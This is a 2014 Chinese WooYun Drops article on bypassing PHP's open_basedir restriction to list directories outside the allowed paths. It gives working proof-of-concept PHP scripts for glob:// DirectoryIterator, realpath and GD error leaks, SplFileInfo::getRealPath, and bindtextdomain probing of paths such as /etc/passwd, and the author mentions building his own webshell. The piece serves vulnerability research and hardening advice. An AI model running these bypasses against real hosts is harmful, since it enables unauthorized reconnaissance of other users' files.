








# PHP 绕过 open_basedir 列目录的研究

2014/11/21 16:05 | [phith0n](http://drops.wooyun.org/author/phith0n "由 phith0n 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

近期由于在开发自己的 webshell，所以对 PHP 一些已有的漏洞进行了一定的研究，并且也自己发现了部分 PHP 存在的安全隐患。这篇文章我来与大家分享一下自己对于 PHP 中 open_basedir 绕过并列举目录的方法总结。

## 0x01 open_basedir 的简介

* * *

Open_basedir 是 PHP 设置中为了防御 PHP 跨目录进行文件（目录）读写的方法，所有 PHP 中有关文件读、写的函数都会经过 open_basedir 的检查。

Open_basedir 实际上是一些目录的集合，在定义了 open_basedir 以后，php 可以读写的文件、目录都将被限制在这些目录中。

设置 open_basedir 的方法，在 linux 下，不同的目录由“:”分割，如“/var/www/:/tmp/”；在 Windows 下不同目录由“;”分割，如“c:/www;c:/windows/temp”。

在现在这个各种云、虚拟主机横行的时期，人们希望 open_basedir 作为一个横亘在不同用户之间的屏障，有力地保障用户的主机能独立运行，但事实并非人们想象的那么简单。

我们这篇文章着重讲的将是绕过 open_basedir 进行目录的列举与遍历，为何我们不说具体文件的读、写，因为文件读写的洞是危害比较大的漏洞了，在 php5.3 以后很少有能够绕过 open_basedir 读写文件的方法。

## 0x02 利用 DirectoryIterator + Glob 直接列举目录

* * *

这是@/fd 脚本（http://zone.wooyun.org/content/11268）里给出的第一个方法。

DirectoryIterator 是 php5 中增加的一个类，为用户提供一个简单的查看目录的接口（The DirectoryIterator class provides a simple interface for viewing the contents of filesystem directories）。

glob: 数据流包装器是从 PHP 5.3.0 起开始有效的，用来查找匹配的文件路径。

结合这两个方式，我们就可以在 php5.3 以后对目录进行列举。在实测中，我们得知，此方法在 Linux 下列举目录居然可以无视 open_basedir。

示例代码：

```
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>

```

执行我们可以发现，open_basedir 为/usr/share/nginx/www/:/tmp/，但我们成功列举了/根目录下的所有文件：



这个方法也是迄今为止最方便的方法，他不用暴力猜解目录，而是直接列举。但他对 php 版本、系统版本有一定要求，在 5.3 以上可列举（5.5/5.6 可能会有修复？在官方没看到有 fix），需要在 Linux 下才能绕过 open_basedir。

## 0x03 realpath 列举目录

* * *

这是@/fd 脚本（http://zone.wooyun.org/content/11268）里给出的第二个方法。

Realpath 函数是 php 中将一个路径规范化成为绝对路径的方法，它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。

在开启了 open_basedir 以后，这个函数有个特点：当我们传入的路径是一个不存在的文件（目录）时，它将返回 false；当我们传入一个不在 open_basedir 里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。

所以我们可以通过这个特点，来进行目录的猜解。举个例子，我们需要猜解根目录（不在 open_basedir 中）下的所有文件，只用写一个捕捉 php 错误的函数 err_handle()。当猜解某个存在的文件时，会因抛出错误而进入 err_handle()，当猜解某个不存在的文件时，将不会进入 err_handle()。

那么由此我们来算算效率。假如一个文件名长度为 6 位（如 config、passwd 等全小写不带数字）的文件，我们最差需要枚举多少次才能猜测到他是否存在：

26 ** 6 = 308915776 次



这样是需要跑很久的，基本每次跑的时候我都没耐心了，这样暴力猜解肯定是不行的。那么，有什么好办法可以变这个“鸡肋”的漏洞为一个“好用”的漏洞？

熟悉 Windows + PHP 的同学应该还记得 Windows 下有两个特殊的通配符：<、>

对，我们这里就借用这些通配符的力量来列举目录。写个简单的 POC 来列举一下：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>

```

首先设置 open_basedir 为当前目录，并枚举 d:/test/目录下的所有文件。将错误处理交给 isexists 函数，在 isexists 函数中匹配出目录名称，并打印出来。

执行可以看到：



Open_basedir 为 c:\wamp\www，但我们列举出了 d:/test/目录下的文件：


当然，这是个很粗糙的 POC，因为我并没有考虑到首字母相同的文件，所以这个 POC 只能列举首字母不同的文件。

如果首字母相同，我们只需要再枚举第二个字符、第三个字符依次类推，即可列举出目录中所有文件。

这个方法好处是 windows 下 php 所有版本通用，当然坏处就是只有 windows 下才能使用通配符，如果是 linux 下就只能暴力猜解了。

## 0x04 SplFileInfo::getRealPath 列举目录

* * *

受到上一个方法的启发，我开始在 php 中寻找类似的方法。一旦 realpath 不能使用的情况下，也能找到替代方式。

我找到了新方法： [WooYun: php 设计缺陷导致绕过 open_basedir 列举目录#1](http://www.wooyun.org/bugs/wooyun-2014-083453) ，使用的方式是 SplFileInfo::getRealPath。

SplFileInfo 类是 PHP5.1.2 之后引入的一个类，提供一个对文件进行操作的接口。其中有一个和 realpath 名字很像的方法叫 getRealPath。

这个方法功能和 realpath 类似，都是获取绝对路径用的。我们在 SplFileInfo 的构造函数中传入文件相对路径，并且调用 getRealPath 即可获取文件的绝对路径。

这个方法有个特点：完全没有考虑 open_basedir。在传入的路径为一个不存在的路径时，会返回 false；在传入的路径为一个存在的路径时，会正常返回绝对路径。

我们的 realpath 函数还是考虑了 open_basedir，只是在报错上没有考虑周全导致我们能够判断某个文件是否存在。但我们可爱的 SplFileInfo::getRealPath 方法是直接没有考虑 open_basedir，就能够判断一个文件是否存在。

那么，我给出一个 POC：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>

```

只是把之前的 POC 稍作修改，同样列出了 D:/test 下的文件：



这个方法有个特点，不管是否开启 open_basedir 都是可以枚举任意目录的。而上一个方法（realpath）只有在开启 open_basedir 且在 open_basedir 外的时候才会报错，才能列举目录。当然，没有开启 open_basedir 的时候也不需要这样列举目录了。

## 0x05 GD 库 imageftbbox/imagefttext 列举目录

* * *

GD 库一般是 PHP 必备的扩展库之一，所以我在寻找 open_basedir 的时候也会看看这些有用的扩展库。

这是新方法： [WooYun: php 设计缺陷导致绕过 open_basedir 列举目录之 3](http://www.wooyun.org/bugs/wooyun-2014-083688)

我拿 imageftbbox 举个例子，这个函数第三个参数是字体的路径。我发现当这个参数在 open_basedir 外的时候，当文件存在，则 php 会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

也就是说，我们可以通过抛出错误的具体内容来判断一个文件是否存在。这个方法和 realpath 有相似性，都会抛出 open_basedir 的错误。

我也修改了个简单的 POC：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip_png.jpg");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>

```

同样列举一下 d:/test



如上图，我们发现虽然“通配符”在判断是否存在的时候奏效了，但我们真正的文件名并没有显示出来，而是还是以通配符“<><”代替。

所以，这个方法报错的时候并不会把真正的路径爆出来，这也是其与 realpath 的最大不同之处。所以，我们只能一位一位地猜测，但总体来说，还是能够猜测出来的，只不过可能比 realpath 更麻烦一些罢了。

## 0x06 bindtextdomain 暴力猜解目录

* * *

这是新方法： [WooYun: php 设计缺陷导致绕过 open_basedir 列举目录#2](http://www.wooyun.org/bugs/wooyun-2014-083457)

bindtextdomain 是 php 下绑定 domain 到某个目录的函数。具体这个 domain 是什么我也没具体用过，只是在一些 l10n 应用中可能用到的方法（相关函数 textdomain、gettext、setlocale，说明：http://php.net/manual/en/function.gettext.php）

Bindtextdomain 函数在环境支持 Gettext Functions 的时候才能使用，而我的 windows 环境下是没有 bindtextdomain 函数的，我的 linux 环境是默认存在这个函数。



如上图，这个函数第二个参数$directory 是一个文件路径。它会在$directory 存在的时候返回$directory，不存在则返回 false。

写个简单的测试代码：

```
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>

```

当/etc/passwd 存在的时候输出之：



当/etc/wooyun 不存在的时候返回 false：



并没有考虑到 open_basedir。所以，我们也可以通过返回值的不同来猜解、列举某个目录。

但很大的鸡肋点在，windows 下默认是没有这个函数的，而在 linux 下不能使用通配符进行目录的猜解，所以显得很鸡肋。

当然，在万无退路的时候进行暴力猜解目录，也不失为一个还算行的方法。

## 0x07 总结

* * *

open_basedir 本来作为 php 限制跨目录读写文件的最基础的方式，应该需要进行完好的设计。但可能 php 在当初编写代码的时候并没有进行一个统一的设计，导致每当新增加功能或遇到一些偏僻的函数的时候，都会出现类似“open_basedir 绕过”等悲剧。

我曾经写过一篇文章，《lnmp 虚拟主机安全配置研究》，中讲述了一个防止虚拟主机跨目录的方法。但受到了一些白帽子的质疑：


原因是很多人过于相信 open_basedir 的可靠性。open_basedir 固然是一个简单地限制跨目录的方法，但如果过于依赖某一个方法去防御一类攻击，你将会死的很惨。


open_basedir 绕过方法固然有版本局限，但不排除有很多人手中握着 0day。像我这样对 php 造诣并不算高的菜鸟也能找到的 open_basedir 绕过漏洞，你真的能保证大牛们都没有办法绕过么？

我当然更能相信 linux/windows 等操作系统自带的权限控制机制，也不会单单相信 open_basedir 真的能帮我防御什么。

By the way，我上面提到的这些方法，基本都还没有在 php 的最新版修复（甚至是我自己发现的“0day”），也就是说还真的有这么多通用的方法可以绕过 open_basedir。

估计又会有人质疑了，光绕过 open_basedir 列目录有什么用？

诚然，列目录相比于读、写具体文件，都鸡肋了很多。但很多时候，就是这些看似“鸡肋”的漏洞组合技完成了绝杀。

## 0x08 参考

* * *

*   [`zone.wooyun.org/content/11268`](http://zone.wooyun.org/content/11268)

*   [WooYun: php 设计缺陷导致绕过 open_basedir 列举目录#1](http://www.wooyun.org/bugs/wooyun-2014-083453)

*   [WooYun: php 设计缺陷导致绕过 open_basedir 列举目录之 3](http://www.wooyun.org/bugs/wooyun-2014-083688)

*   [WooYun: php 设计缺陷导致绕过 open_basedir 列举目录#2](http://www.wooyun.org/bugs/wooyun-2014-083457)

*   [`php.net/manual/en/class.directoryiterator.php`](http://php.net/manual/en/class.directoryiterator.php)

*   [`php.net/manual/zh/wrappers.glob.php`](http://php.net/manual/zh/wrappers.glob.php)

*   [`php.net/manual/en/function.realpath.php`](http://php.net/manual/en/function.realpath.php)

*   [`php.net/manual/en/splfileinfo.getrealpath.php`](http://php.net/manual/en/splfileinfo.getrealpath.php)

*   [`php.net/manual/en/book.image.php`](http://php.net/manual/en/book.image.php)

*   [`php.net/manual/en/function.gettext.php`](http://php.net/manual/en/function.gettext.php)

版权声明：未经授权禁止转载 [phith0n](http://drops.wooyun.org/author/phith0n "由 phith0n 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [PHP 非字母数字の代码](http://drops.wooyun.org/tips/508)
*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)
*   [Codeigniter 利用加密 Key（密钥）的对象注入漏洞](http://drops.wooyun.org/papers/1449)
*   [分析下难得一见的 ROR 的 RCE（CVE－2013－0156）](http://drops.wooyun.org/papers/61)
*   [逆向基础（八）](http://drops.wooyun.org/tips/2451)
*   [批量网站 DNS 区域传送漏洞检测——bash shell 实现](http://drops.wooyun.org/tips/2014)